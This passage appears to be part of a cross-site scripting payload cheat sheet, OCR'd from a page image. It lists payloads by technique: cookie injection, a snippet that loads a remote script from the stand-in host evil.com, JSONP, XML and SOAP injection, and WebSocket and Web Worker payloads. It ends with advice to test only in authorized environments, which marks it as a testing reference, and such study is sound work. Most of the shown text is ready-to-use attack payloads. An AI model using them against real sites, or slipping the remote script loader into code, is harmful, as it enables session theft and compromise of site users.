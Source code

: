 HTTP Response Splitting:

Sending a header with newline characters to inject scripts.


Cookie Injection:

If cookies are read and output without sanitization:


document.cookie = "mycookie=<script>alert('XSS')</script>";


10. AJAX and XHR Exploits

Loading External Scripts:

var script = document.createElement('script');
script.src = 'http://evil.com/malicious.js';
document.body.appendChild(script);

XSS with JSONP:

<script src="http://example.com/callback?data=<script>alert('XSS')</script>"></script>


Additional Payloads and Scenarios

11. Testing With Special Characters

Using Special Characters:

<script>document.body.innerHTML += '<img src=x onerror=alert("XSS")>'; </script>


12. Exploiting XML and SOAP

XML Injection:

<request><param><script>alert('XSS')</script></param></request>

SOAP Payload:

<Envelope><Body><script>alert('XSS')</script></Body></Envelope>


13. Using HTML5 Features

WebSockets:

new WebSocket('ws://evil.com?payload=<script>alert("XSS")</script>');

Web Workers:

const worker = new Worker('data:text/javascript,alert("XSS")');


Key Points to Remember

Always test in safe, authorized environments.

Each technique may require different contexts for execution.

Be aware of Content Security Policy (CSP) restrictions that may affect payload execution.

Understanding the application structure is key to finding viable injection points.

